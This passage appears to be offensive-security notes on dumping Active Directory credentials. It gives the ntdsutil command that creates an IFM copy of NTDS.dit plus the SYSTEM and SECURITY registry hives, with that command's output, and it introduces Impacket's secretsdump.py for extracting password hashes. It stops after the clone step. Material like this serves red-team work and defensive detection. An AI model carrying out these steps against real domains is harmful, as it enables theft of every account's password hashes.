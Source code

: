 ## Create Install From Media (IFM) set using NTDSUtil (Grab NTDS.dit file)

NTDSUtil is the command utility for natively working with the AD DB (ntds.dit) & enables IFM set creation for DCPromo. IFM is used with DCPromo to “Install From Media” so the server being promoted doesn’t need to copy domain data over the network from another DC. The IFM set is a copy of the NTDS.dit file created in this instance in c:\temp.

This file may be staged on a share for promoting new DCs or it may be found on a new server that has not been promoted yet. This server may not be properly secured.

```
C:\Users\Administrator>ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
ntdsutil: ac i ntds
活动实例设置为“ntds”。
ntdsutil: ifm
ifm: create full c:\temp
正在创建快照...
成功生成快照集 {03d7e751-8489-4bee-b7c1-fde165f87426}。
快照 {e236f8b9-10e5-4404-ac4d-843f1db29f1e} 已作为 C:\$SNAP_201611051210_VOLUMEC$\ 装载
已装载快照 {e236f8b9-10e5-4404-ac4d-843f1db29f1e}。
正在启动碎片整理模式...
     源数据库: C:\$SNAP_201611051210_VOLUMEC$\Windows\NTDS\ntds.dit
     目标数据库: c:\temp\Active Directory\ntds.dit

                  Defragmentation  Status (% complete)

          0    10   20   30   40   50   60   70   80   90  100
          |----|----|----|----|----|----|----|----|----|----|
          ...................................................

正在复制注册表文件...
正在复制 c:\temp\registry\SYSTEM
正在复制 c:\temp\registry\SECURITY
快照 {e236f8b9-10e5-4404-ac4d-843f1db29f1e} 已卸载。
在 c:\temp 中成功创建 IFM 媒体。
ifm: q
ntdsutil: q
```

## Extract Hashes from NTDS.dit

Once the attacker has a copy of the NTDS.dit file (and certain registry keys to decrypt security elements in the database file), the credential data in the Active Directory database file can be extracted.

One method to extract the password hashes from the NTDS.dit file is Impacket’s secretsdump.py (Kali, etc).
Just need the ntds.dit file and the System hive from the DC’s registry (you have both of these with an Install from Media (IFM) set from ntdsutil).


```
$ git clone https://github.com/CoreSecurity/impacket/
$ cd impacket/examples/
```
